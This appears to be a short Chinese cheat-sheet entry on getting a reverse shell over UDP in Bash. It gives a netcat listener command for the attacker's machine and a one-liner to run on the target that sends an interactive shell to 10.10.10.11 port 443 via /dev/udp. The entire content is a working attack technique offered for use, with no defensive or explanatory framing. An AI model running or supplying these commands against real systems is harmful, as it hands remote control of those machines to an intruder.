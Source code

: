 # Bash环境下反弹UDP协议shell

首先在本地监听UDP协议443端口

```bash
nc -u -lvp 443

```

然后在靶机上执行如下命令：

```bash
sh -i >& /dev/udp/10.10.10.11/443 0>&1

```

